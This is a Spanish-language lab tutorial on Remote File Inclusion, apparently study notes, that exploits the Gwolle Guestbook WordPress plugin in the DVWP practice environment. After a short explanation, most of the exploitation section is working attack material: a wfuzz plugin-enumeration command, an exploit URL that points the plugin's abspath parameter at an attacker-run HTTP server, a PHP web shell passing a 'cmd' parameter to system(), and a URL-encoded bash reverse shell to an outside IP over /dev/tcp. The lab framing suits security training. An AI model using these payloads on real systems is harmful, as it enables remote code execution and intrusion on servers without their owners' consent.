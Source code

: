 # Remote File Inclusion (RFI)

Tags: #RFI #OWASP #Explotacion 

La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando para practicar esta vulnerabilidad:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Asimismo, se os comparte el enlace directo para la descarga del plugin ‘**Gwolle Guestbook**‘ de WordPress:

-   **Gwolle Guestbook**: [https://es.wordpress.org/plugins/gwolle-gb/](https://es.wordpress.org/plugins/gwolle-gb/)


## Código 

Para descubrir si tiene el Plugin de **gwolle-gb** 
```bash
❯ wfuzz -c --hc=404 -t 200 -w wp-plugins.fuzz.txt http://❮IP❯/FUZZ

	# hc -> HideCode 404
	# c -> Formato colorido
	# w -> Ruta del diccionario
	# FUZZ -> Donde va a insertar las palabras el diccionario
	# t -> Lanzar tareas en paralelo al mismo tiempo
```
**Nota**: El PHP de la victima debe de tener '**allow_url_include = 'ON'**', de lo contrario no va a funcionar
Podemos explotar la vulnerabilidad agregando desde '/wp-content/' esto a la url de la pagina web:
```bash
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/    # Colocamos nuestra IP y lo que hara ese comando es intentar cargar un archivo 'GET /wp-load.php HTTP/1.0'
```

Debemos de tener activo un servidor http en nuestra maquina de atacante 
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80
```

Por lo que debemos de crear ese archivo para cargar comandos y también podemos colocarle una ReverShell.
```php
❯ nano wp-load.php
	<?php
		system("whoami");
	?>

	// hostname -I
```

O podemos controlar el comando
```php
❯ nano wp-load.php
	<?php
		system($_GET["cmd"]);
	?>
```

En la url al final debemos de colocar: **&cmd='comando'**
```bash
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=whoami
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261"     # -> La manera correcta que es url-encodeado
```